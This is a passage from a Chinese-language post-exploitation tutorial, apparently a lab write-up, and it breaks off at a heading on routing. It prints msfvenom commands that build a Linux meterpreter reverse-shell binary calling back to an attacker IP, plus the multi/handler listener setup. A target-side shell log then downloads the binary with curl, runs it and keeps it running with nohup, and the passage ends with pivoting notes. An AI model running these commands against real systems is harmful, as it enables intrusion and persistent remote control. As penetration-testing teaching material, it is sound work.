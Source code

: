 可以看出session1是shell，session2是meterpreter。

### 利用木马获得meterperter

为了防止ssh连接超时终端，可以上传后门文件并持续运行，生成木马命令：

```
msf5: msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=100.1.1.169 LPORT=7777 -f elf > mshell.elf
msf6: msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=100.1.1.169 LPORT=7777 -f elf > mshell.elf
```

然后起监听

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 100.1.1.169
set lport 7777
run
```

上传木马，这里选择在攻击机起http服务，然后靶机curl -o的方式

```
root@web01:/home/mason# curl http://100.1.1.169:8000/mshell.elf
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
root@web01:/home/mason# curl http://100.1.1.169:8000/mshell.elf -o mshell.elf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   250  100   250    0     0   8162      0 --:--:-- --:--:-- --:--:--  8333
root@web01:/home/mason# chmod 777 mshell.elf
root@web01:/home/mason# nohup ./mshell.elf &
[1] 1863420
root@web01:/home/mason# nohup: ignoring input and appending output to 'nohup.out'
```

重要的是`nohup ./mshell.elf &`，持续运行。

msf的meterpreter有`upload`和`download`命令，可以上传或下载文件。

### MSF添加路由和代理

[论后渗透MSF之 | 添加路由和代理](https://blog.csdn.net/m0_55793759/article/details/126514312)

跳板实现过程

（1）需要有一个已经获取的meterpreter会话；

（2）获取内网地址网段；

（3）在MSF平台上添加去往内网网段的路由。

#### 路由
